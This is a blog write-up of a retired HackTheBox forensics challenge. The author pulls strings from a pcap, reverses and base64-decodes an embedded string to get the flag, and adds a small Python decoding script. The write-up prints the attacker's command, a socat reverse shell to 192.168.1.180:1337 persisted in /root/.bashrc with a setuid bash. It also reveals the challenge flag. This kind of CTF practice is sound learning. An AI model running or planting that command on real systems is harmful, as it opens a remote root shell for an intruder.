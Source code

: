 ```yaml
---
layout: default
author: m0j0
---
```


![htb_ctf_2023](/assets/images/HTB_CTF_2023.jpg)


It's near upon me and the OUCSS team for the latest Uni CTF with Hack the Box.

I decided to go over some old write-ups from previous years and other events 
like [PicoCTF](https://play.picoctf.org/login) just to get that CTF mindset again.

It is a game of Love and Hate when playing CTF's for me but the key thing I 
have learnt over the years is not too get frustrated and just be happy that
you participated. We all are here to gain that little bit more knowledge and
these for sure give you some, albeit in a totally different format.

I have landed on [HTB's](https://app.hackthebox.com/challenges/wrong-spooky-season)
very easy Forensics challenge called **Wrong Spooky Season**.I gotta start somewhere
and very easy on HTB can be well... let's just find out by trying it. 

I'll show some methodolgy once I have cracked it.

Well I didn't think I'd get to update this so quick and as it is retired I can 
talk about it.

I didn't glance at anything for this as it was "very easy".

So I got some files to download and it turned out to be a `.pcap` file. The challenge
has a description:

```
 CHALLENGE DESCRIPTION

&quot;I told them it was too soon and in the wrong season to deploy such a website,
but they assured me that theming it properly would be enough to stop the ghosts from
haunting us. I was wrong.&quot; Now there is an internal breach in the `Spooky Network`
and you need to find out what happened. Analyze the the network traffic and find how
the scary ghosts got in and what they did.
```

Networking then and a website being deployed. I got stuck in. 
As I was unzipping the file with the password HTB supply I thought about
opening Wireshark a great tool for this that we all must know.


But... First I ran the simple but effective sometimes `strings` command.
Usually I run `strings -a whatever.pcap` for some low hanging fruit or juicy 
info to lead me on my way and `grep less` to run through the stdout.

I forgot the `less` command and at the end of the outputted strings a command:

```bash
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo
"==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null &&
chmod +s /bin/bash
```
Looks familair to  `base64` encoded attempt at a shell on the target so I try the 
string:

```bash
m0j0@r1s1n: ~/HTB/challenges/forensics/wrong_spooky_season
$ echo -n "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | base64 -d                                                       [13:40:17]
base64: invalid input
FAIL: 1

m0j0@r1s1n: ~/HTB/challenges/forensics/wrong_spooky_season
$ echo -n "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | base32 -d                                                       [13:41:18]
base32: invalid input
FAIL: 1
```

As you can see I ran `base32` but then I realised why it had failed.  I was too
fast. If I flip the string what will it do?

So to flip for speed I used an [online site](https://www.textreverse.com/) but this 
could be done with python which I will do.

It gave me an output which I fed to the terminal:

```
m0j0@r1s1n: ~/HTB/challenges/forensics/wrong_spooky_season
$ echo -n "SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg==" | base64 -d                                                       [13:42:14]
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```

Boom a flag!! That was very easy as rated and fun to brush off the cobwebs (:

This made me want to reverse the string and decode it with **Python** which can be done
fairly easy with Python. Below is my script.

```python
# importing the module
import base64

# assign the string from challenge
string = "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS"

# assign variable and reverse it with a slice method then print
print("This is the string reversed:\n") 
convert_string = print(string[::-1])
print("\n")
convert_string = "SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg=="

# converting the base64 code into ascii characters as each character in B64 is 6 bits
convert_bytes = convert_string.encode("ascii")

# converting into bytes from base64 system
converted_bytes = base64.b64decode(convert_bytes)

# decoding the ASCII characters into alphabets
decoded_sample = converted_bytes.decode("ascii")

# displaying the result
print(f"Here is the flag: {decoded_sample}")
# Here is the flag: HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}  
```

![htb_ctf_2023](/assets/images/cert.jpg)


